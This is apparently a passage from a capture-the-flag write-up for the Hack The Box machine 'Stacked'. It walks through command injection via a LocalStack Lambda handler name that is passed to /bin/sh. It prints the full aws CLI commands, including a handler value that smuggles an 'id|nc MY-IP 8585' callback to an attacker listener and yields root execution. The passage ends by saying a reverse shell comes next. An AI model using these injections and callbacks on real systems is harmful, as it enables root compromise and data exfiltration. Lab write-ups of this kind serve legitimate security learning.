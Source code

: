 then after invoking it 
```
aws --endpoint-url http://s3-testing.stacked.htb lambda invoke --function-name "testx" response.json
```

it extracts all the flags passed for environment variables and set them

**docker create -i -e DOCKER_LAMBDA_USE_STDIN=1 -e LOCALSTACK_HOSTNAME=172.17.0.2 -e EDGE_PORT=4566 -e _HANDLER=test -e AWS_LAMBDA_FUNCTION_TIMEOUT=3 -e AWS_LAMBDA_FUNCTION_NAME=testx -e AWS_LAMBDA_FUNCTION_VERSION=$LATEST -e AWS_LAMBDA_FUNCTION_INVOKED_ARN=arn:aws:lambda:us-east-1:000000000000:function:testx -e AWS_LAMBDA_COGNITO_IDENTITY={} --rm lambci/lambda:python3.9 test **

then it passes to /bin/sh 

![Screenshot from 2022-03-22 15-21-42](https://user-images.githubusercontent.com/79413473/159453751-5b39b24a-c72a-41f6-a1ad-23305b8c89aa.png)

```
/bin/sh -c CONTAINER_ID="$(docker create -i   -e DOCKER_LAMBDA_USE_STDIN="$DOCKER_LAMBDA_USE_STDIN" -e LOCALSTACK_HOSTNAME="$LOCALSTACK_HOSTNAME" -e EDGE_PORT="$EDGE_PORT" -e _HANDLER="$_HANDLER" -e AWS_LAMBDA_FUNCTION_TIMEOUT="$AWS_LAMBDA_FUNCTION_TIMEOUT" -e AWS_LAMBDA_FUNCTION_NAME="$AWS_LAMBDA_FUNCTION_NAME" -e AWS_LAMBDA_FUNCTION_VERSION="$AWS_LAMBDA_FUNCTION_VERSION" -e AWS_LAMBDA_FUNCTION_INVOKED_ARN="$AWS_LAMBDA_FUNCTION_INVOKED_ARN" -e AWS_LAMBDA_COGNITO_IDENTITY="$AWS_LAMBDA_COGNITO_IDENTITY"   --rm "lambci/lambda:python3.9" "test")"

docker cp "/tmp/localstack/zipfile.dba734ce/." "$CONTAINER_ID:/var/task"

docker start -ai "$CONTAINER_ID";
```
Now we can inject command in /bin/sh but injecting in variables will not work like **AWS_LAMBDA_FUNCTION_NAME**. now excluding these variables handler and runtime is left. Let's inject in handler.

Create a function

```
aws --endpoint-url http://s3-testing.stacked.htb lambda create-function --function-name "test9" --zip-file fileb://function.zip --runtime python3.9 --role arn:aws:iam::123456789012:role/lambda-ex --handler "test\$(id|nc MY-IP 8585)"
```
\$ is escaping '$' symbol otherwise it executes on my machine first then send it to localstack.

Let's invoke it.

```
aws --endpoint-url http://s3-testing.stacked.htb lambda invoke --function-name "test9" response.json
```
in docker 

![Screenshot from 2022-03-22 15-27-58](https://user-images.githubusercontent.com/79413473/159455097-2513f562-6370-458d-a21d-2cd0d68c073a.png)

on my listener i get hit as root

![Screenshot from 2022-03-22 15-28-44](https://user-images.githubusercontent.com/79413473/159455208-50a55119-078e-4766-8075-f4266a78ee49.png)

Let's get root shell from here, *Caution: generric reverse shell won't work as you are inside /bin/sh. You have to pass it to bash first.*
